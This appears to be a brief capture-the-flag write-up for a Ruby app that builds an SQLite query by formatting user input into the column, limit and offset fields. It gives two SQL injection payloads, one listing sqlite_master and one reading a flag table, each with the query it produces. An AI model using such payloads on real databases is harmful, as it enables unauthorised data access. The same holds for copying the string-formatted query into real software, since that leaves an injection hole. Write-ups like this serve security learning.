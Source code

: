# writeup
```rb
	@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])
```

Payloads:
```
* from sqlite_master union select 0,0,0,0,0
```
=>
```
select * from sqlite_master union select 0,0,0,0,0 from quills limit 100 offset 0
```

```
* from flagtable union select 0
```
=>
```
select * from flagtable union select 0 from quills limit 100 offset 0
```